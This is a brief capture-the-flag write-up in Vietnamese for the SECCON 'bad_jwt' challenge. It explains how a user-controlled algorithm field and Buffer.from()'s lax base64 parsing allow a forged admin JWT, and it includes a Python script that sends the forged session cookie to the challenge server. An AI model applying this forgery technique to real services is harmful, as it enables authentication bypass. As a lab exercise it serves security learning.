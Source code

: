 # bad_jwt
Hàm create signature dùng user input làm algorithm.
![image](https://github.com/lemauanhphong/ctf_writeups/assets/91038460/13420af1-35db-4948-8d01-94d4ef1ca95f)

Buffer.from() bỏ qua ký tự nằm ngoài phạm vi base64 character.
![image](https://github.com/lemauanhphong/ctf_writeups/assets/91038460/d7042c93-ced8-4dd8-b0ff-cc41d58e845d)

Xây dựng JWT với trường header, payload như ảnh, còn signature thì nối header payload lại.
![image](https://github.com/lemauanhphong/ctf_writeups/assets/91038460/838ddb61-da28-4bbb-87b1-d836667690aa)


```py
import requests

URL = 'http://bad-jwt.seccon.games:3000/'

payload = 'eyJhbGciOiJjb25zdHJ1Y3RvciJ9.eyJpc0FkbWluIjp0cnVlfQ.eyJhbGciOiJjb25zdHJ1Y3RvciJ9eyJpc0FkbWluIjp0cnVlfQ'
cookies = {'session': payload}

print(requests.get(URL, cookies=cookies).text)
```
